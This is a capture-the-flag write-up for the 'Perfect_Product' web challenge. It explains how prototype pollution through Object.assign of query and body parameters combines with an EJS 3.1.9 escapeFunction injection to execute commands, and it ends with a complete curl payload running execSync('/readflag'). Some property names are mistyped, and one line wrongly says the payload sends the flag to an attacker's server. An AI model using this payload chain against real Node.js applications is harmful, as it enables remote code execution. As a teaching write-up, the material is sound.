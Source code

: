 # Perfect_Product

## Challenge description:
+ Check out my newest product gallery.
+ Source given

## Analysis
+ This application allows us to add a new product, view the existing product's details and print the product details

Breaking down the source code:
+ This application is using ejs as the engine to enable the use of ejs templates for rendering dynamic content
+ The products array holds the information about different products. Each product has properties like name, description,price,tax,country and image
+ While adding a product, if any of these paramters are missing or not of type string, it sends with the response as "bad_request". Other new product will be added and rendered
+ in /product, `Object.assign` is used to merge `req.query` and `req.body` objects into the params object without validation
+ 
```
const params = req.query || {};
Object.assign(params, req.body || {});
```
If we include a malicious payload in the request parameters, they can manipulate the `params` objects and modify the prototype.
It first initializes the params object with the query parameters (req.query) or an empty object if no query parameters are present. Then, it uses Object.assign() to merge the request body (req.body) with the params object.

```
 if(!(strings instanceof Array) && !Array.isArray(strings)){
    strings = ['NaN', 'NaN', 'NaN', 'NaN', 'NaN'];
  }
```
+ The purpose of this code snippet seems to ensure that the strings variable is always an Array. If it is not an Array, it initializes it with the default values ['NaN', 'NaN', 'NaN', 'NaN', 'NaN'].
+ From the source code we can understand that the version of ejs is 3.1.9. This version of ejs is vulnerable to server side template injection.<br>
refer: https://github.com/mde/ejs/issues/735
+ So, basically ejs template injection will be possible along with the prototype pollution in params in /product.
+ So, normally while doing prototype pollution, we set __proto__ as something like
http://localhost:5001/?__proto__[propertyName]=propertyValue. To check whether the requried object got affect or not, we can check if the propertyName exists in the object's prototype chain. You can do this by using the hasOwnProperty method. For example: obj.hasOwnProperty('propertyName'). If the result is true, it means the propertyName was added or modified due to the prototype pollution attack.

+ But in this challenge we can do like this because of a check for Array, so you had to create a complex object which is an array at the same time. So, we set the value in like this: `v[__proto__]=1`(This payload aims to pollute the __proto__ property with the value 1.). This also called prototype poisoning.
refer: Prototype Poisoning.
https://security.snyk.io/vuln/SNYK-JS-QS-3153490
As given in the above link the first part of the payload could possibly be:
`?name=myname&v[__proto__]&v[__proto__]&v[length]=4&v[0]=0&v[1]=1&v[2]=2&v[3]=3`.It sets the __proto__ property to an array with the values [0, 1, 2, 3].
+ This basically the first part of the challenge.
+ The second part of the challenge is basically overwriting the view options which in turn will allow js injection in compiled ejs templates
+ EJS is a popular templating engine that allows embedding JavaScript code within HTML templates. These templates are usually compiled server-side to generate dynamic HTML that is then sent to the client.
The "view options" in EJS refer to configuration settings that control how the templates are compiled and rendered. These options can include various settings related to template rendering, such as escaping HTML entities or enabling strict mode
+ refer this cve: https://github.com/mde/ejs/issues/735
second part of the payload will be: `v[_proto__][client]=1&v[_proto__][settings][view+options][escapeFunction]=JSON.stringify;process.mainModule.require("child_process").execSync("/readflag").`
_proto__[settings][view options][escapeFunction] property to a string that includes JavaScript code to execute. In this case, it uses JSON.stringify to stringify a function that executes a command to read the flag using curl and sends it to the attacker's server.
+ Coming to the third part of the challenge, templating engines, including EJS, often cache compiled templates for performance reasons. When a template is compiled, it is typically stored in memory for subsequent use.
+ Third part of the payload: `v[proto_][cache]`
+ If you don't include the "v[proto_][cache]" property in the payload, the template engine's cache will not be reset. This means that the previously compiled version of the template might still be used.
<br>
So, the final payload looks like:
```
curl -g 'http://localhost:5001/product?name=myname&v[__proto__]&v[__proto__]&v[length]=4&v[0]=0&v[1]=1&v[2]=2&v[3]=3&v[_proto__][client]=1&v[_proto__][settings][view+options][escapeFunction]=JSON.stringify;process.mainModule.require("child_process").execSync("/readflag")&v[_proto__][cache]'
```
